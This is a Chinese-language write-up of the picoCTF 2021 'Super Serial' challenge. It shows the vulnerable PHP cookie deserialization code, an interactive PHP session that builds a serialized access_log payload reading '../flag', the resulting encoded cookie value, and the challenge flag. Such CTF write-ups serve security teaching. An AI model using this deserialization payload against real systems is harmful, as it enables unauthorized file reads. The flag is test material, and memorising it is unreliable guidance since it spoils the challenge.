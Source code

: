 Note: 我再講詳細一點好了，不管是`index.phps`或是`authentication.phps`都會在一開始require `cookie.php`，代表他會執行以下這段程式，並且進行反序列化，而會用到LFI的class method是在`authentication.phps`中，所以我們要訪問的網頁應該是這個，然後要創建login cookie是因為`cookie.phps`需要這個東西才會進入判斷式
```php
if(isset($_COOKIE["login"])){
    try{
        $perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
        $g = $perm->is_guest();
        $a = $perm->is_admin();
    }
    catch(Error $e){
        die("Deserialization error. ".$perm);
    }
}
```
## Exploit - Unserialization
1. php -a
    ```php
    $ php -a
    Interactive mode enabled

    php > class access_log
    php > {
    php {     public $log_file;
    php {
    php {     function __construct($lf) {
    php {         $this->log_file = $lf;
    php {     }
    php {
    php {     function __toString() {
    php {         return $this->read_log();
    php {     }
    php {
    php {     function append_to_log($data) {
    php {         file_put_contents($this->log_file, $data, FILE_APPEND);
    php {     }
    php {
    php {     function read_log() {
    php {         return file_get_contents($this->log_file);
    php {     }
    php { }
    php > echo urlencode(base64_encode(serialize(new access_log("../flag"))));
    TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
    ```
2. 建一個cookie然後access authentication.phps
![](https://hackmd.io/_uploads/ByM5qVkdh.png)

Flag: `picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_405f4c0e}`


## Reference
[ picoCTF 2021 Super Serial ](https://youtu.be/Eu3nFVAwAK0)